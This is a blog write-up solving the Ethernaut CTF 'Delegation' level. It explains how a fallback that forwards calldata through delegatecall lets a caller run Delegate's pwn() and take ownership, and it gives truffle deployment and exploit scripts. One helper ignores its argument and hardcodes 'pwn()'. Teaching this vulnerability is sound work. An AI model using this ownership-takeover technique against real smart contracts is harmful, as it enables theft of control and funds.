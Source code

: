 Title: Solving Zeppelin's Ethernaut CTF - Delegation
Date: 2018-08-05 16:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-delegation
Summary: Post #7 of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In Delegation, we study how to exploit a trustful contract that uses a not-so-safe low-level call.

## Introduction
If you haven't realized by now, let me tell you something, Solidity's low-level calls are definitely not your best friends. I'm talking about `call`, `callcode` and `delegatecall`. They can be deceiving, as we've already seen in [Fallback](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/). That's the reason why many static analyzers will raise an alarm whenever any of them is found. I'm not saying you shouldn't use them - they exist for a reason - but, beware.

Now go take a look at the [Delegation challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:target="_blank",:rel="noopener"} and come back once you're done.

In a nutshell, we're are given an instance of the Delegation contract over which we should claim ownership. As you may have seen, the contract only has one function that we can interact with, which happens to be its fallback function. Quite a narrow scope there - so it all comes down to this line: `delegate.delegatecall(msg.data)`, the vuln must be there. Let's see what `delegatecall` does.

## In delegatecall we trust
Sadly, in this case.

First of all, `delegatecall` is just another type of message that smart contracts can send to each other - with some peculiarities, but a message at the end of the day. According to the [Solidity docs on delegatecall](https://solidity.readthedocs.io/en/v0.4.24/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries):

> [...] is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.

Yeap, chinese is easier, I know. Let's put this straight.

Imagine two happy friends: Alan and Bob. Alan is the laziest guy ever, he does not even bother to do anything himself, 'cause why do something when someone else can do it for you, right ? So whenever he needs to do the cleaning at home, he calls his super trustworthy BFF, Bob. Alan happens to be super trustful of Bob, I mean, like hell. So he not only let's Bob do the work, but also gives Bob all the keys to his house. All of them, even the safe-deposit box key. 

The thing is, Bob ain't no saint either. He gained Alan's **trust**, and now can do whatever he pleases with Alan's belongings. He can move around anything in Alan's house, even those things that were to be kept private.

Now imagine Alan and Bob are not humans, but smart contracts. We'll call them A and B for short. Whenever A calls delegatecall on B (B.delegatecall(...)) he's letting B proccess the whole call. B has now access to A's storage and can modify it freely. For instance, in the Delegation challenge, B (Delegate) could potentially change the owner of A (Delegation). How can we achieve that ?

## In delegate call we shouldn't have trust
Check Delegate's code. In particular, this function:

~~~solidity
function pwn() public {
        owner = msg.sender;
}
~~~

Whoever calls that `pwn` function, automatically becomes the owner of the contract. Now what if we called it through `delegatecall` ? As we read in the docs: `msg.sender` does not changes its original value, and the call would be executed **in the caller's context**. Which means that, to pass the challenge, we need to call Delegate's `pwn` function through the `delegatecall` in the Delegation contract. That way, the owner of Delegation would be changed to the sender who sent the initial call to Delegate.

Enough talk. Let's do it.

## Exploiting an unsafe delegatecall
Include both Delegate.sol and Delegation.sol in your `contracts` folder. Then write the deployment scripts as follows and run `truffle migrate`:

~~~javascript
let Delegate = artifacts.require('./Delegate.sol')
let Delegation = artifacts.require('./Delegation.sol')

module.exports = deployer => {
    // We first deploy Delegate to obtain its address
    deployer.deploy(Delegate, web3.eth.accounts[0]).then(() => {
        // Once Delegate is deployed, pass its address to the Delegation contract constructor
        return deployer.deploy(Delegation, Delegate.address)
    })
}
~~~

For the exploit, create a new file in your `exploits` folder called `delegation.exploit.js`. Set it up following the same structure we used for previous exploits.

~~~javascript
const DelegationContract = artifacts.require('Delegation')
const assert = require('assert')

async function execute(callback) {

    // Instance the Delegation contract
    let delegationContract = await DelegationContract.deployed()
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker address: ${attackerAccount}`)

    // Check who's the owner of the Delegation contract
    let owner = await delegationContract.owner.call()
    console.log(`Initial owner: ${owner}`)
    
    // Actual exploit will be here

    callback()
}
~~~

Next step: calling the fallback function of Delegation. In previous posts we saw that in order to execute a contract's fallback function code, all we need to do is send a transaction to the contract. However, this will be a special case.

All Ethereum transactions include a `data` field, in which we can include a payload we want to send to a contract. For instance, a contract's function signature and parameters that we wish to call. By inspecting Delegation's code, you can see that everything inside the `data` field is be passed to the Delegate contract and executed by it. Thus, we will call the `pwn` function, but first we'll need to encode it the Ethereum way.

To do so, we need to hash the prototype string of the function like functionName(type1,type2,...) with Keccak256, and then take only the first 4 bytes. That is why you will often see something like `bytes4(keccak256(...))` in Solidity code. Yet, we're writting Javascript here, not Solidity, and we can take advantage of `web3` utility functions.

The final part of the exploit looks like:

~~~javascript
await delegationContract.sendTransaction({
        from: attackerAccount,
        data: encodeFunctionSignature('pwn()')
})

// Check who's the owner of the Delegation contract
owner = await delegationContract.owner.call()
assert.equal(owner, attackerAccount)
console.log(`Final owner: ${owner}`)
~~~

And the `encondeFunctionSignature` function goes like this:

~~~javascript
function encodeFunctionSignature(functionName) {
    return web3.eth.abi.encodeFunctionSignature('pwn()')
}
~~~

You can check what that `web3` function is actually doing in here: [https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199](https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199){:rel="noopener"}


All set! You can now call `truffle exec exploits/delegation.exploit.js`, pwn the Delegation contract, and finally become its owner!

Find the full exploit code at [https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js){:rel="noopener"}.

That's it, another challenged solved. In the next post, we'll tackle [Force](https://ethernaut.zeppelin.solutions/level/0x24d661beb31b85a7d775272d7841f80e662c283b){:rel="noopener"} and, spoiler alert, learn how to press a hidden self-destruct button that all smart contracts have.

